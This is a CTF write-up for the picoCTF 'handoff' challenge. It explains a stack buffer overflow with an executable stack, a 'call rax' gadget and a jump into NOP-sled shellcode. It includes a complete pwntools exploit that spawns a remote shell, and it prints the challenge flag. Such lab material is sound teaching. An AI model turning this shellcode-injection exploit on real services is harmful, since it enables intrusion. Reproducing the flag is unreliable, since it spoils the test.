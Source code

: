 # Handoff - Writeup

First, inspecting `handoff.c`, we notice that we have a buffer overflow in `feedback`
which occurs as soon as you exit the program.
The `feedback` variable is 8 bytes, and we get to read `NAME_LEN` = 32 bytes.
Notice that this means that we get to overflow the following:
8 bytes `feedback`, 8 bytes \$rbp, 8 bytes \$rip, and 8 more bytes
(we do need a null byte at the end).

Also, running checksec, we get:

```
[*] '/home/jayjay/dev2/ctf/2025/picoctf/handoff/handoff'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

Notice in particular, there is *no stack canary*, *no PIE*, and most importantly,
stack is executable. 

Now, we look for gadgets. There aren't that many useful gadgets,
and we can't build a ROP chain anyway, but here is a useful one:

`0x0000000000401014 : call rax`

So how can we change \$rax? Well, fgets will return the address
of the buffer `feedback` in \$rax, which is not changed. How convenient!

So our payload is gonna look like this:

`[some instructions] [garbage] [call rax]`

Too bad we don't have a lot of space in our payload. But we control
the memory at entries, so we can use that space. We can inject shellcode
there and then relative jmp (2 bytes) into our entries. Of course, this all works because
the stack is executable.

Also, I used a NOP sled in entries because it was convenient (less thinking, yayy!).

Exploit code:

```python

#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template handoff --host shape-facility.picoctf.net --port 51346
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'handoff')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'shape-facility.picoctf.net'
port = int(args.PORT or 49337)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
break *(vuln+485)
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX unknown - GNU_STACK missing
# PIE:      No PIE (0x400000)
# Stack:    Executable
# RWX:      Has RWX segments

io = start()

rop = ROP(exe)

for i in range(10):
    io.sendline(b"1")
    io.send(b"\xc0"+b"\x90"*0x1e)
    io.sendline(b"2")
    io.sendline(str(i).encode("ascii"))
    io.send(b"\xc0"+b"\x90"*0x3e)
io.sendline(b"2")
io.sendline(b"9")
io.sendline(asm("sub rsp, 0x80\n" + shellcraft.sh()));

io.sendline(b"3")
io.sendline(fit({0:0x41424344454680eb, 20: 0x0000000000401014}))

io.interactive()
```


This gets the flag! `picoCTF{p1v0ted_ftw_440a61fe}`
